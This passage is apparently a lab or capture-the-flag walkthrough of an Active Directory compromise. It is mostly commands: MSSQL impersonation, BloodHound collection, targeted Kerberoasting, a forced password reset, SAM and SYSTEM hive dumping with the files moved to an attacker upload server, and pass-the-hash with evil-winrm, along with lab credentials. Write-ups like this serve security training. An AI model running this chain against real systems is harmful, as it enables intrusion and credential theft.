Now trying mssql with discovery creds from [[445]]
```
nxc mssql hokkaido-aerospace.com -u discovery -p 'Start123!'
```



Now we can login to mssql:
```
mssqlclient.py discovery@hokkaido-aerospace.com -windows-auth
```

Now we have a database called hrappdb which we can't access

Now checking for impersonation:

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```


```
EXECUTE AS LOGIN = 'hrappdb-reader' SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin')
```

Now we are `hrappdb-reader`


Now checking databases:
```
SELECT name FROM master.dbo.sysdatabases
```

Checking all tables:
```
SELECT * FROM hrappdb.INFORMATION_SCHEMA.TABLES;
```


```
select * from sysauth;
```


Now verifying credentials:

It is valid.

Now running bloodhound digestor:
```
bloodhound.py -u 'hrapp-service' -p 'Untimed$Runny' -ns 192.168.218.40 -d hokkaido-aerospace.com -c all --zip
```

Now in bloodhound checking outbound transitive object control for hrapp-service:

We have genericWrite over hazel.
Now to get hashes:
```
targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny'
```

We got hashes for maintenence,hazel and discover

Trying to crack we got creds only for hazel:



RERUN BLOODHOUND AS HAZEL:
```
bloodhound.py -u 'Hazel.Green' -p 'haze1988' -ns 192.168.218.40 -d hokkaido-aerospace.com -c all --zip
```
Now in bloodhound we can check hazel outbound transitive object control:

We can see that Hazel is a member of TIER2-ADMINS and IT.

Checking member of IT:

We have 3 members:

Molly.Smith:


Alexandra.Little:


We can see Molly has more rights.


Now checking Shortest path to domain admin:


Now resetting Molly's password:
```
net rpc password "molly.smith" "Password123@" -U "hokkaido-aerospace.com"/"Hazel.Green"%"haze1988" -S "dc.hokkaido-aerospace.com"
```

Now we can use rdp:

```
xfreerdp /u:molly.smith /p:'Password123@' /v:hokkaido-aerospace.com /cert-ignore /compression /auto-reconnect
```

Connect using xfreerdp:

We are molly.smith now

Now running command prompt as administrator with molly's creds:


Now we can use our SeBackupPrivilege to Privesc:
```
cd c:\
reg save hklm\sam c:\Temp\sam\
reg save hklm\system c:\Temp\system
```
Now we have sam and system in  Temp directory. 

Now start a python upload server on kali:
```
python3 -m uploadserver 80
```
Now upload sam ans system by visiting edge on windows target.

Now use secretsdump.py:
```
secretsdump.py LOCAL -sam sam -system system
```

Now we have hashes for administrator:


Now we have pwned it:


Now we can login with evil-winrm:
```
evil-winrm -i hokkaido-aerospace.com -u Administrator -H 'd752482897d54e239376fddb2a2109e4'
```
